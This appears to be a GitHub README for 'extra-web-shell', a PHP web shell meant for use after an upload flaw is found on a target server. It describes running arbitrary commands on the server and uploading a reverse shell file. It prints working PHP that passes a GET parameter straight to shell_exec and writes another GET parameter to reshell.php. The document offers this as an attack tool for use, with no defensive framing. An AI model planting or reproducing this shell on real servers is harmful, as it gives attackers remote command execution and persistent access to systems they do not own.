 # extra-web-shell

## What is this?
#### this is a web shell, contains both, bind and option of upload a reverse shell
![extra-shell](https://raw.githubusercontent.com/hamza07-w/extra-web-shell/main/backg.png)
## How can this help me?
##### well, sometimes when you find a file upload vulnerability, you will find that you can't bypass the extension eaisy, for example you have to try many extension methods such as, php, php5, jpg.php ... this extra web shell, will help you to upload any kind of files start from php, txt ...etc

## Bind shell section
#### this part of the tool, you can execute any command on the server without any problem, and the output will be visible in the output border

## Create file or reverse shell section
#### here you can upload any file just copy the content of this file and the output will give you the link of it to acssess
#### you can edit the name and the extension in the source code from $path variable which equal "reshell.php" by default to what you like
```php
<?php
	if(isset($_GET['cmd']))
	{
	    $output = shell_exec($_GET['cmd']);
	}
	elseif (isset($_GET['payload'])) {
		file_put_contents("reshell.php", $_GET['payload']);
		$path = "reshell.php";
	}	
?>

```

## LICENCE
[MIT](https://github.com/hamza07-w/extra-web-shell/blob/main/LICENSE)
